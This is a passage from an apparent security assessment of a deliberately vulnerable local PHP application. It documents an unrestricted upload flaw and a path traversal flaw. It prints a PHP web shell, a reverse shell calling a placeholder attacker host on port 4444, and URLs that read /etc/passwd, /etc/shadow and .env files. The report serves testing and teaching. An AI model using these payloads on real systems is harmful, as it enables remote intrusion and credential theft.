 **Location**: `upload.php`
**Severity**: CRITICAL

#### Vulnerabilities:
- No file type validation
- No file size limits
- No content inspection
- Direct file execution possible

#### Exploitation:

**PHP Web Shell Upload**:

Create `shell.php`:
```php
<?php
system($_GET['cmd']);
?>
```

Upload via web interface, then access:
```
http://localhost:8080/uploads/shell.php?cmd=whoami
http://localhost:8080/uploads/shell.php?cmd=cat+/etc/passwd
http://localhost:8080/uploads/shell.php?cmd=ls+-la
```

**Reverse Shell**:
```php
<?php
$sock=fsockopen("attacker-ip",4444);
exec("/bin/bash -i <&3 >&3 2>&3");
?>
```

---

### 6. Directory Traversal / Path Traversal

**Location**: `settings.php`
**Severity**: CRITICAL

#### Vulnerable Code:
```php
$file_path = $_GET['file'];
$file_content = file_get_contents($file_path); // No sanitization!
```

#### Exploitation:

**Read Sensitive Files**:
```
http://localhost:8080/settings.php?file=.env
http://localhost:8080/settings.php?file=/etc/passwd
http://localhost:8080/settings.php?file=/etc/shadow
http://localhost:8080/settings.php?file=../../../etc/hosts
http://localhost:8080/settings.php?file=/var/log/apache2/access.log
```
